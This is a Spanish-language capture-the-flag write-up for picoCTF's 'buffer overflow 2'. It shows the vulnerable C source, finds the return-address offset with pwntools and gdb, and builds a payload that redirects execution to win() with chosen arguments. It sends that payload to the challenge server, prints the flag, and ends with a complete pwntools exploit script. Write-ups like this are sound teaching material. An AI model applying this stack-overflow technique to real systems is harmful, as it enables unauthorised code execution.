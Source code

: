 # buffer overflow 2
Control the return address and arguments
hint: 

## Solucion






#### Analisis
- Examinamos el codigo fuente
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in>
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
- tres funciones win, vuln, main, similar al anterior
- ahora win revisa los parametros (CAFEF00D y F00DF00D)
- tendremos que sobreescribir la direccion de retorno y los parametros en reversa 2 luego 1 en litte endian

#### Generamos patron para desborde y calculo del offset
- generamos offset
```python
>>> from pwn import *
>>> cyclic(200)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
>>> 
```
- desbordamos, pero no vemos a donde se va
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/bufferoverflow2]
└─$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab" | ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
```
- tenemos que desbordar con gdb para ver donde queda la direccion de retorno
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/bufferoverflow2]
└─$ gdb -q vuln

Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) r <<< $(echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
Starting program: /home/kali/picoctf/pwning/bufferoverflow2/vuln <<< $(echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab")
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()

```
- calculamos el offset buscando y generamos las letras necesarias
```python
>>> cyclic_find(0x62616164)
112
>>> print('A'*112)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
- obtenemos la direccion de la funcion win en gdb
```bash
(gdb) info address win
Symbol "win" is at 0x8049296 in a file compiled without debugging.
```

- creamos el offset con direccion de retorno a sobreescribir en litte indian
```python
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(b'A'*112+b'\x96\x92\x04\x08')
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08'
```
- desbordamos con esa informacion
```bash
(gdb) r <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/picoctf/pwning/bufferoverflow2/vuln <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08')
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Please create 'flag.txt' in this directory with your own debugging flag.
[Inferior 1 (process 21201) exited normally]
(gdb) 
```
- nos damos cuenta que ya estamos dentro de win por que nos pide el archivo de la flag
- creamos la flag.txt dummie 
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/bufferoverflow2]
└─$ echo "flag{dummie}" > flag.txt
```
- volvemos a desbordaar
```bash
(gdb) r <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08')
Starting program: /home/kali/picoctf/pwning/bufferoverflow2/vuln <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08')
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) 
```
- ahora se detiene en 0x000000 no tiene forma de saltar por que se perdio el apuntador al stack anterior

x64 stack inverted

#### El agregado de los parametros
- despues de la direccion de retorno hay dos parametros que verifica la funcion **win** antes de poder darnos la flag

- los tenemos que mandar en litte endian

```bash
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```
- mandamos
```bash
(gdb) r <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08\r\xf0\xfe\xca\r\xf0\r\xf0')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/picoctf/pwning/bufferoverflow2/vuln <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08\r\xf0\xfe\xca\r\xf0\r\xf0')
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0xcafef00d in ?? ()
```
- el primer parametro cae en la direccion de retorno, eso indica que necesitmos 4 de offset entre la direccion de retorno anterior los agregamos como BBBB
```bash
(gdb) r <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08BBBB\r\xf0\xfe\xca\r\xf0\r\xf0')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/picoctf/pwning/bufferoverflow2/vuln <<< $(echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08BBBB\r\xf0\xfe\xca\r\xf0\r\xf0')
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA�BBBB
flag{dummie}

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) 
```
- esto nos da la flag

- lo podemos comprobar poniendo un punto de interrupcion en la comparacion y viendo los valores de la pila
- 
```bash
(gdb) info b
Num     Type           Disp Enb Address    What
2       breakpoint     keep y   0x0804930c <win+118>
	breakpoint already hit 1 time
(gdb) x/4 $ebp
0xffffcfec:	0x41414141	0x42424242	0xcafef00d	0xf00df00d
(gdb) x $ebp+0x8
0xffffcff4:	0xcafef00d
(gdb) x $ebp+0xc
0xffffcff8:	0xf00df00d
(gdb) 


```

- ahora lanzamos en remoto
```bash
┌──(kali㉿kali)-[~/picoctf/pwning/bufferoverflow2]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08BBBB\r\xf0\xfe\xca\r\xf0\r\xf0' | nc saturn.picoctf.net 65112
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAA�BBBB
picoCTF{argum3nt5_4_d4yZ_31432deb}
```

### exploit
```python
def inicio(server=True):
        if(server):
                return remote('saturn.picoctf.ne>
        else:
                return process('./vuln')


overflow = b'A'*112
overflow += p32(0x8049296)
overflow += b'B' * 4
overflow += p32(0xCAFEF00D) 
overflow += p32(0xF00DF00D)

p = inicio()
linea = p.recvuntil(':')
print(linea)
print('[*] Enviando Overflow ..')
p.sendline(overflow)
linea = p.recvall()
print(linea)
p.close()

```
